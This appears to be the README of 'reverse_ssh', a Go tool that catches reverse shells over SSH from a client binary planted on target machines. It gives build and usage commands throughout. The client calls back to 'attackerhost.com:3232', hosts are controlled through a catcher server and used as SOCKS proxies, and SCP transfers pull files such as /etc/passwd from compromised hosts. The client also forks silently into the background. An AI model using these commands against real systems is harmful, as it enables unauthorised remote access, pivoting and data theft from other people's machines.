 # Reverse SSH

Ever wanted to use SSH for reverse shells? Well now you can.  

The reverse SSH server lets you catch multiple reverse shells, using the fully statically compiled reverse shell binary.

```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |   SSH   |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
make
cd bin/

# start the server
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232

# copy client to your target then connect to the server
./client attackerhost.com:3232

# connect to the server from your attacker host
ssh localhost -p 3232
```

## Setup Instructions

> **NOTE:** reverse_ssh requires Go **1.16** or higher. Please check you have at least this version via `go version`

The simplest build command is just:

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.
Alternatively, you can use the --authorizedkeys flag to point to a file.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control, then connect to the server.

```sh
./client yourserver.com:3232
```

Finally connect to your reverse shell catcher server to administrate, connect through etc:

```sh
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy network traffic to your controlled hosts.

First you connect to your reverse shell catcher.

```sh
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell.

```sh
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```

After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.

### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:

```sh
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```sh
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:

```sh
catcher$ ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root@wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries.
So you you wanted to connect to the client given in the example:

```sh
> connect a<TAB>
```

Will auto complete the entry for you and on enter will connect you to your reverse shell.

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```

## Foreground vs Background

By default, clients will run in the background. When started they will execute a new background instance (thus forking a new child process) and then the parent process will exit. If the fork is successful the message "Ending parent" will be printed.

This has one important ramification: once in the background a client will not show any output, including connection failure messages. If you need to debug your client, use the `--foreground` flag.
